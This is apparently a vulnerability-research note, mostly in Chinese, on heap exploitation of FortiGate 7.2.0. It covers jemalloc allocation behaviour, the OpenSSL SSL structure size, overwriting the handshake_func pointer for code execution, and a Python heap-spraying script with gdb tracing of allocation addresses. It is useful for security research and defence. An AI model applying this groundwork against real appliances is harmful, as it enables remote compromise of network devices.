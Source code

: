 # FGT 7_2_0



### 内存分配器

分析发现，FGT基本全使用jemalloc进行内存分配



通过代码分析发现：

```
CRYPTO_set_mem_functions(sub_1716960, sub_1716990, sub_1716980) 
```

指定SSL结构体的分配器为jemalloc

```
#0  0x00007f07161e1a90 in je_malloc () from /usr/lib/x86_64-linux-gnu/libjemalloc.so.2
#1  0x0000000001716969 in ?? ()
#2  0x00007f07157d08ca in CRYPTO_zalloc () from /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
#3  0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#4  0x00000000017111c2 in ?? ()
```

### jemalloc

jemalloc 源码分析：https://youjiali1995.github.io/allocator/jemalloc/

Jemalloc 源码分析: https://blog.csdn.net/liuxunwei1/article/details/138155256

As it sounded pretty hard to get anything working, we took a look at the underlying allocator, to see if there were any way to leverage the bug.

The underlying heap, jemalloc, was unknown to us at the time. We were in a hurry (understand: I ragequit when trying to make shadow work) and not looking to acquire a deep understanding of it. Here's what we learned about it:

- Heap metadata is stored independently; you can safely overflow from one chunk (region) to another
- You can easily get contiguous allocations (after filling holes)
- There is some kind of LIFO mechanism on allocations of the same size: freeing a chunk of size N and allocating the same size yields the same pointer.

The last point actually makes the exploitation very much easier: we can allocate the buffer we overflow from, out, at the same address, repeatedly.

版本定位：

```
/ # busybox strings /lib/libjemalloc.so.2  | grep 5
5.2.1-0-gea6b3e973b477b8061e0076bb257dbd7f3faa756
```

### SSL 结构体



通过openssl 中的函数 SSL_new 可以定位 SSL 结构体分配的大小以及位置，该函数的实现位于/lib/libssl.so.1.1中

```c
__int64 __fastcall SSL_new(__int64 a1)
{
........................................
  v3 = CRYPTO_zalloc(6280LL, "ssl/ssl_lib.c", 691LL);
........................................
}
```

大小6280（0x1888）

```
(gdb) bt
#0  0x00007f07161e1a90 in je_malloc () from /usr/lib/x86_64-linux-gnu/libjemalloc.so.2
#1  0x0000000001716969 in ?? ()
#2  0x00007f07157d08ca in CRYPTO_zalloc () from /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
#3  0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#4  0x00000000017111c2 in ?? ()
#5  0x000000000171384c in ?? ()
#6  0x000000000171481c in ?? ()
#7  0x00000000017150e4 in ?? ()
#8  0x0000000001715d47 in ?? ()
#9  0x0000000001716f42 in ?? ()
#10 0x0000000001717236 in ?? ()
#11 0x0000000001717e5d in ?? ()
#12 0x000000000044c88f in ?? ()
#13 0x00000000004554ca in ?? ()
#14 0x000000000045212c in ?? ()
#15 0x0000000000454738 in ?? ()
#16 0x0000000000455061 in ?? ()
#17 0x00007f0715b89deb in __libc_start_main () from /usr/lib/x86_64-linux-gnu/libc.so.6
#18 0x0000000000447daa in ?? ()
(gdb) print $rdi
$1 = 6280
```

常规利用方式为：修改SSL结构体的handshake_func函数指针字段，触发：

```c
int SSL_do_handshake(SSL *s)
{
    int ret = 1;

    if (s->handshake_func == NULL) {
        SSLerr(SSL_F_SSL_DO_HANDSHAKE, SSL_R_CONNECTION_TYPE_NOT_SET);
        return -1;
    }

    ossl_statem_check_finish_init(s, -1);

    s->method->ssl_renegotiate_check(s, 0);

    if (SSL_in_init(s) || SSL_in_before(s)) {
        if ((s->mode & SSL_MODE_ASYNC) && ASYNC_get_current_job() == NULL) {
            struct ssl_async_args args;

            args.s = s;

            ret = ssl_start_async_job(s, &args, ssl_do_handshake_intern);
        } else {
            ret = s->handshake_func(s);
        }
    }
    return ret;
}
```

函数，从而达到任意代码执行

#####  ssl 分配地址情况

python测试脚本：

```python
#!/usr/bin/python3
import http.client
import ssl
import socket
import re
import urllib.parse
import time
import hashlib

HOST = "192.168.182.188"
PORT = 8443  

CIPHERS = "ECDHE-RSA-AES256-SHA@SECLEVEL=0"
context = ssl.create_default_context()
context.minimum_version = ssl.TLSVersion.MINIMUM_SUPPORTED
context.set_ciphers(CIPHERS)
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

def create_ssl_socket():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((HOST, PORT))
    ssl_sock = context.wrap_socket(sock)
    return ssl_sock

ssl_socks = []

for i in range(100):
    sk = create_ssl_socket()
    ssl_socks.append(sk)

```

gdb 脚本：

```
handle SIGPIPE nostop
break *SSL_new + 0x35
commands
    print /x $rax 
    continue
end
```

```

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$633 = 0x7f070fe59000

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$634 = 0x7f070fe5ac00

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$635 = 0x7f070fe5c800

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$636 = 0x7f070fe5e400

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$637 = 0x7f070fe81000

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$638 = 0x7f070fe82c00

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$639 = 0x7f070fe84800

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$640 = 0x7f070fe86400

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$641 = 0x7f070fe88000

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$642 = 0x7f070fe89c00

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$643 = 0x7f070fe8b800

```

每个ssl结构体的地址相差大小为0x1c00(7168)
